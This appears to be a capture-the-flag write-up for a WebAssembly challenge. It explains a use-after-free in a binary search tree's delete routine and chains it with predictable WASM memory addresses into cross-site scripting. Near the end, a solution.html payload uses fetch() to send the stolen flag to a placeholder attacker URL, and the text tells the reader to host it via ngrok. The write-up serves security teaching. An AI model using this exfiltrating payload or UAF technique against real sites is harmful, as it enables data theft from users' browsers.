


# Wasmabism and Javaschriptianity

Author: zeyu2001

## Description

For more than two centuries, Wasmabism (Hex: 5761736d616269736d) has been the dominant faith of San Francisco Autonomous Irradiated Zone. It is an austere form of Javaschriptianity, that insists on a literal interpretation of the Book of Eich.

{ "use strict" Wasmabists believe that all those who don't practice their form of Javaschriptianity are heathens and enemies. }

-- Excerpted from Wikipedia, 2220.

*Admin bot is rate-limited. Test your solution locally using the Docker configurations provided.*

## Hints

1. Do what the filename of `pwn_me_pls.c` says. What are some classic pwn vulnerabilities?
2. It might be useful to read up on the standard algorithms of this data structure, then come back to how this particular one is implemented.


## Solution

Use after free (UAF) when deleting a node in the BST with both a left and right child, which is itself a right child of its parent.

If the deleted node is a right child, the parent's right pointer is never modified:

```c
temp->left = current->left;
if (parent->left == current) {
    parent->left = current->right;
}
free(current);
```

Since in WASM there is no ASLR, memory addresses are predictable. We could therefore chain the following steps:

1. Write an XSS payload to memory. This will not validate successfully, but will be written to memory nonetheless:

```c
ManOfCulture *createNewNode(char *name, int linesOfWASM) {
    char *newName = malloc(strlen(name) + 1);
    strcpy(newName, name);

    if (validateName(newName)) {
        return NULL;
    }

    ...

```

2. In the Chrome debug console, we could find out the memory address of `newName` by placing a breakpoint after the `malloc` call.



3. We find a suitable node to delete and replace. Notice that if the inserted node has the same `linesOfWASM` as an existing node, then the existing node is deleted and the new node is inserted.

```javascript
else if (res === 2) {
    console.log('Replacing and adding new person: ' + name + ' with ' + lines + ' lines');

    // Replace the old node with the new one by deleting it first
    Module.ccall('delete', 'number', ['number'], [lines]);

    // Add the new node
    Module.ccall('insert', 'number', ['string', 'number'], [name, lines])
}
```

When the new node is inserted, the user can overwrite the memory that was just freed by deleting the old node.

```c
char *newName = malloc(strlen(name) + 1);
strcpy(newName, name);
```

We thus need to simply insert the memory address of the XSS payload we found from step 2.

The `solution.html` file consists of a simple payload that performs the above. Since WASM does not have ASLR, this payload will work on any device.

```html
<html>
    <body>
        <script>
            window.open("http://app/?add= resp.text()).then(flag => fetch(\\\"https\\\\72//<ATTACKER_URL>/\\\"%2Bbtoa(flag)))'>:1000,%68%0a%50%00:6000")
        </script>
    </body>
</html>
```

**Note**: To submit the solution, host it using a tunnelling service like `ngrok`. You would also need to change the exfiltration URL in the `solution.html` to your own `ngrok` URL.

After submitting this attacker-hosted exploit to the admin bot, we would be able to see the flag in our server logs.

